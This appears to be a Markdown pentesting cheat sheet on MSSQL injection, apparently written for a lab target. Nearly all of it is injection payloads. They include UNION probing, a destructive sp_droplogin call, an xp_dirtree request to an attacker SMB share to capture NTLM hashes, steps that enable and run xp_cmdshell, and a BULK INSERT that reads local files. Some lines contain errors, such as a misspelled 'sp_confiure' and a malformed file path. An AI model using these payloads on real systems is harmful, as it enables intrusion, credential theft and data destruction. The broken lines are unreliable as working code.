 # MSSQL Injection
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

- Authenticate using Kerberos
```
python3 mssqlclient.py -k dc1.scrm.local
```

- Testing parameters. Blind SQL injection method.
```sql
q=10' UNION SELECT 1,2,3....10 -- -
q=10' EXEC sp_droplogin 'user'; -- -
q=10' SELECT HOST_NAME() -- -
```


### Command Execution

- Ending query and testing for `xp_dirtree` to nc listening on SMB.
This can be used to potentially intercept NTLM hashes.
```sql
q=10'; EXEC xp_dirtree '\\10.10.16.7\smb_fileshare\test.txt' -- -
```

- Testing for potential xp_cmdshell.
```sql
q=10'; EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to configure cmdshell if root/admin is available.
```sql
q=10'; 
EXEC sp_confiure 'show advanced options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;

--Then execute...
EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to access local files if root/admin is available.
```sql
a=10'
CREATE TABLE malicious (line varchar(8000));
BULK INSERT malicious FROM 'c:boot.ini';
DROP TABLE malicious; -- -
```
